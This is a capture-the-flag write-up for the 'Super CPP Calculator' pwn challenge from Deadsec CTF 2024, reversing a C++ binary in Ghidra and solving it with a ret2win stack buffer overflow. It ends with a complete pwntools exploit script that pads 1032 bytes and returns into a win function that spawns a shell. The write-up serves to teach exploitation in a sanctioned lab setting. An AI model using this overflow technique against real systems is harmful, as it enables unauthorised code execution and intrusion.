







Super CPP Calculator is a pwn challenge from Deadsec ctf 2024

There's one binary given, let's examine the binary first:



OK, looks promising for an easy pwn, let's open the binary in Ghidra.

Looking at the main function in Ghidra (cleaned up for clarity)



There are a few things to note here, we can see that a `Calculator` class is used here, and it appears to be allocated on the stack, so let's look at the class.



This is what you may see when you open the constructor in Ghidra, you may ask, what is this `in_RDI` thing?

If you are familiar with the standard C calling convention, rdi is usually used as the first argument to a function call. In this case, if we refer to the main function, we call the constructor with the first parameter as the stack-allocated Calculator object, so from this, we can infer that the constructor does take a parameter.

In pure C, it may look like something like this:

```c
struct Calculator {
    int a;
    ...
};

void Calculator_init(struct Calculator* calc) {
    calc->a = 0;
    ...
}

int main() {
    struct Calculator calc;
    Calculator_init(&calc);
}

```

A quick Google search revealed that C++ classes use the `__thiscall` calling convention, we can edit the function signature in Ghidra to achieve that. Here is the cleaned up constructor:



The constructor for the calculator class appears to set all the attributes of the class to zero.

Let's keep examining the binary, here we can take a look at the backdoor that has been given to us.



Looks like we have something of interest here, a `read` function, and the `len` parameter that appears to be an attribute of the calculator object. We also have a buffer that we can control, we have a buffer overflow here.

Looking slightly deeper into the function listing in Ghidra, we see a win function:

```c
void win(void) {
    system("/bin/sh");
}
```

Based on these clues, this is a ret2win buffer overflow exploit, now we need to figure out how to control `this+24` so we can overflow the return address.

Let's look at the `setnumber_floater` method:



This function looks like a lot of code, but there are a few details:

In line 21-22, we can see that the value of `this+24`, which is the value for the `len` parameter, is the quotient of the two values we put in, with constraints. We can derive the formula, shout out to my friend [August](https://squirrelly.glykon.cc/):

```c
float A = this + 12  0.0 < A < 10.0
float B = this + 16  0.0 < B < 10.0
size_t len = (int)A/B
```

Now we need to figure out how many bytes we need to read to overflow the stack in the backdoor, let's look at the assembly for backdoor.



The total stack size of the backdoor function is hex 410, that translates to 1040 bytes in decimal. Recall the stack layout:

```
---------
ret addr
---------
saved rbp
---------
local var
---------
```

Looking at the assembly `lea rax, [rbp-0x400]; mov rsi,rax`, the buffer starts at rbp - 1024, in order to reach the return address, we need to write 1024(local var) + 8 bytes (rbp) of data, adding the packed return address after.

Knowing this data, we can divide 10 by a small number, such as 0.008, to give us enough read for the buffer overflow.

To put it together, first we need to make the selection to enter `floater_calculator`, then put in the two values to set `this + 24`, then we can put in `1337` to trigger the back door, writing the overflow, then ret2win.

Full solve is following:

```py
from pwn import *
context.terminal = ['tmux', 'splitw','-h']
HOST = "35.224.190.229"
#run = remote(HOST, 31972)
e = context.binary = ELF("./test")
run = e.debug()
run.sendline(b"1")
run.sendline(b"10")
run.sendline(b"0.008")
run.sendline(b"1337")
run.send(b'a'*1032+p64(e.address+0x1748)) # offset for win
run.interactive()
```

You may ask, why did you return to offset 0x1748 and not 0x1740? This is because the `endbr64` instruction attempts to align the stack, which causes a crash in the following `system` call, so to bypass that, it is better to return slightly after that to avoid the stack alignment issue.

Thanks for reading.
